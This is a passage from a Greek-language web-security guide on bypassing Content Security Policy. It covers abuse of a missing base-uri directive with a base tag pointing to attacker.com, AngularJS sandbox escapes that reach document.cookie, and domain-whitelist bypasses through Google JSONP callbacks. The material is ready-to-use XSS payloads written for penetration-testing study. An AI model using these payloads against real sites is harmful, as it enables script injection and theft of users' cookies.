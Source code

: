 ### λείπον **base-uri**

Αν η οδηγία **base-uri** λείπει, μπορείτε να την καταχραστείτε για να εκτελέσετε μια [**dangling markup injection**](../dangling-markup-html-scriptless-injection/).

Επιπλέον, αν η **σελίδα φορτώνει ένα script χρησιμοποιώντας μια σχετική διαδρομή** (όπως `<script src="/js/app.js">`) χρησιμοποιώντας ένα **Nonce**, μπορείτε να καταχραστείτε την **ετικέτα base** για να το κάνετε να **φορτώσει** το script από το **δικό σας διακομιστή επιτυγχάνοντας ένα XSS.**\
Αν η ευάλωτη σελίδα φορτώνεται με **httpS**, χρησιμοποιήστε ένα url httpS στην ετικέτα base.
```html
<base href="https://www.attacker.com/">
```
### Συμβάντα AngularJS

Μια συγκεκριμένη πολιτική γνωστή ως Πολιτική Ασφαλείας Περιεχομένου (CSP) μπορεί να περιορίσει τα συμβάντα JavaScript. Ωστόσο, το AngularJS εισάγει προσαρμοσμένα συμβάντα ως εναλλακτική λύση. Μέσα σε ένα συμβάν, το AngularJS παρέχει ένα μοναδικό αντικείμενο `$event`, το οποίο αναφέρεται στο πρωτότυπο αντικείμενο συμβάντος του προγράμματος περιήγησης. Αυτό το αντικείμενο `$event` μπορεί να εκμεταλλευτείτε για να παρακάμψετε τη CSP. Ιδιαίτερα, στο Chrome, το αντικείμενο `$event/event` διαθέτει ένα χαρακτηριστικό `path`, το οποίο κρατά έναν πίνακα αντικειμένων που σχετίζονται με την αλυσίδα εκτέλεσης του συμβάντος, με το αντικείμενο `window` να βρίσκεται πάντοτε στο τέλος. Αυτή η δομή είναι κρίσιμη για τακτικές διαφυγής από το χώρο ασφαλείας.

Καθοδηγώντας αυτόν τον πίνακα στο φίλτρο `orderBy`, είναι δυνατόν να επαναλάβετε πάνω του, εκμεταλλευόμενοι το τελικό στοιχείο (το αντικείμενο `window`) για να ενεργοποιήσετε μια παγκόσμια συνάρτηση όπως το `alert()`. Το παρακάτω απόσπασμα κώδικα επεξηγεί αυτήν τη διαδικασία:
```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```
Αυτό το απόσπασμα υπογραμμίζει τη χρήση της οδηγίας `ng-focus` για να ενεργοποιήσει το συμβάν, χρησιμοποιώντας το `$event.path|orderBy` για να χειριστεί τον πίνακα `path`, και εκμεταλλευόμενο το αντικείμενο `window` για να εκτελέσει τη λειτουργία `alert()`, αποκαλύπτοντας έτσι το `document.cookie`.

**Βρείτε άλλες παρακάμψεις στο Angular** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### AngularJS και λευκή λίστα τομέων
```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```
Μια πολιτική CSP που καταχωρίζει λευκή λίστα τομέων για τη φόρτωση script σε μια εφαρμογή Angular JS μπορεί να παρακαμφθεί μέσω της κλήσης συναρτήσεων επιστροφής και ορισμένων ευάλωτων κλάσεων. Περισσότερες πληροφορίες για αυτήν την τεχνική μπορούν να βρεθούν σε ένα λεπτομερές οδηγό διαθέσιμο σε αυτό το [αποθετήριο git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh\*t,-it's-CSP!%22).

Λειτουργικά φορτία:
```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
### Διέλευση μέσω Ανακατεύθυνσης
